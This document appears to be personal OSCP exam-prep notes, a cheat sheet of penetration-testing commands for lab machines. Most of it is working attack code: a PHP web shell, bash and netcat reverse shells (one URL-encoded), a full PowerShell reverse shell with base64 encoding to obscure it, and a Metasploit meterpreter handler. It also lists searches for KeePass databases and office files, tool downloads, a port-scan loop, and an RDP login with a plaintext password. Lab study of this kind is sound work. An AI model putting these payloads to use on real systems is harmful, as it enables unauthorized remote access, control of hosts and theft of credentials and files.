 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.186",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

network scanning
for i in $(seq 1 254); do nc -zv -w 1 172.16.203.$i 445; done

xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64